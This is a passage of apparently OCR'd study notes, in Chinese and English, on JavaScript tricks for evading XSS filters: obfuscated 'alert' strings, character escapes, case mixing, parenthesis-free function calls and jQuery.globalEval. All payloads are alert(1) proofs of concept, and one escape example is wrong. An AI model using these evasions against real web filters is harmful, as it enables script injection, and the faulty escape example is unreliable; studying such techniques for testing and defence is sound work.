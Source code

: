 Regex 字元：
- `/part1/.source+/part2/.source` => `'part1part2'`

Numbers to strings:
- `8680439..toString(30)` => `'alert'`
- ( Number is generated using `parseInt(“alert”,30)`, other bases also work )



### String 裡面使用 character escape sequences
這方面的簡單工具可以用[js-escapes](https://mothereff.in/js-escapes):
- `"\x41" -> "A"`: 十六進制 encoding
- `"\u0065" -> "A"`: unicode encoding (值為十進制)
- `"\101" -> "A"`: 八進制 encoding


### VaRy ThE capItaliZatiOn (把字母大小寫弄亂)
有時，regex 或其他定制的 filters 會進行區分大小寫的匹配
- 這時你可以直接使用`toLowerCase()`
  - `globalThis["aLeRt".toLowerCase()]`



### 呼叫 functions

[Template literal syntax](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Template_literals)
- JS 可以用 Template literals 來當作呼叫 function，並傳參數進去

```js
alert`1`
```

Function.prototype.apply
```js
alert.apply(this,[1])
```

Function.prototype.call
```js
alert.call(this,1)
```

predicates
```js
[1].find(alert)
[1].filter(alert)
```


### Reuse and recycle
記住要研究已經 load 的東西
- jQuery 是個簡單的例子，但任何足夠複雜的框架都可能有可用的東西
- [Wappalyzer](https://chrome.google.com/webstore/detail/wappalyzer-technology-pro/gppongmhjkpfnbhagpmjfkannfbllamg?hl=en) 或類似的工具可以幫助我們
  - `window.jQuery.globalEval("alert(1)")`。
  - `$.globalEval("alert(1)")`。
